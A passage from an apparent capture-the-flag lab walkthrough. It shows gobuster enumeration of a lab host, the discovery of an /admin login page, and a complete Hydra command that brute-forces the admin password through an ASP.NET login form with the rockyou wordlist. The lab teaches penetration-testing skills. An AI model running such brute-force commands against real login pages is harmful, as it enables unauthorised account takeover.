 ```bash
2021/06/19 20:08:03 Starting gobuster in directory enumeration mode
===============================================================
...[snip]...

/account              (Status: 301) [Size: 152] [--> http://10.10.135.139/account/]
/admin                (Status: 302) [Size: 173] [--> http://10.10.135.139/Account/login.aspx?ReturnURL=/admin]

...[snip]...
```

we got `/admin` dir here, let's check this out.

![img](https://i.imgur.com/Gf2QJCB.png)

### Flags 2.1

|Flag-ID|question|
|:--|---|
|1|What request type is the Windows website login form using?|
||`POST`|

### Flag  2.2

Hydra bruteforce command

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.135.139 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=eRnxFX0KeP0JSP3NUgJuQNgMv0s2Vbi3LgmkZ1b13u5XVzxoWRsgjuZ1i9zBwladu1Sn2olX%2BOFslf3MYIG%2BlcCFhPNOo39g9aaorqmfZ93BBwYH%2BU66nHfBoPd6mu2nKWfs4%2FFZacIS%2Ff1LUkpUlG29J6pqWWdWu1XGrlgHl4lNicNd&__EVENTVALIDATION=fLvo1twKPtwoRdRfJPlthZ9VW0RmhUAGor8gmqwlkM3r%2BiRaQAOP97BUNWjE%2BbVSNzZnye1kEuI2S72bUGOZqDPu0E7weYfJPUYT6xHHJ0%2F8wMA8ovjF9GRdvpIR0cHRYE%2BLAC2eUQ5%2ByMBbSzIv92ZRoxDToB5I4z4eiaYaGYKRGxvj&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

![img](https://i.imgur.com/0DSaivn.png)

---

<script type="text/javascript" language="javascript">
      var aax_size='300x250';
      var aax_pubname = 'anir0y-21';
      var aax_src='302';
    </script>
<script type="text/javascript" language="javascript" src="https://c.amazon-adsystem.com/aax2/assoc.js"></script>

---

## task 03:  Compromise the machine
